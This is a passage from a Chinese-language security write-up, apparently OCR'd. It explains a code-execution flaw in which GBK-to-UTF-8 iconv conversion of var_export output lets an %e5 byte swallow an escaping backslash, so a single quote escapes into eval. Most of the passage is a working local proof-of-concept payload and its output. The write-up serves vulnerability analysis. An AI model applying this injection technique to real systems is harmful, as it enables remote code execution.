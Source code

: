 ```php
                return modules\appdesign\models\iconv("GBK", "UTF-8", $value);
            }
            else {
                return $value;
            }
        }
    }
```

若想达成代码执行，则需要触发之中的 eval，很幸运在默认的配置下是可以走到 eval 的，这里用了 iconv 函数将 GBK 转为 UTF8，问题也就出在这里。錦的 utf-8 编码是 0xe98ca6，它的 gbk 编码是 0xe55c。传入的%e5 与用来转义的单引号的\\，正好组成了这个汉字，从而导致我们的单引号逃逸出来，最终到达 eval 的任意代码执行。这也由于 var\_export 是用单引号包裹字符串的。下面是本地的一个测试：

```php
<?php
$value=array("page_total"=>null,"total_nums"=>null,"curnum"=>1,
"pagelimit"=>10,"open_mode"=>"0","activeTab"=>urldecode("%e5\%27.var_dump(11111));?>"),
"show_title"=>null,"show_dots"=>null,"speed"=>null,"data"=>[],"showPages"=>0,"data_sources"=>"serv_data");
$b=var_export($value, true);
var_dump($b);
$s_conv=iconv("GBK", "UTF-8",  $b.";");
if ($s_conv) {
    var_dump($s_conv);
    eval("return " . $s_conv);
}
```

结果如下：

```php
string(310) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '\\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
)"
string(312) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '錦\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
);"
int(11111)
```
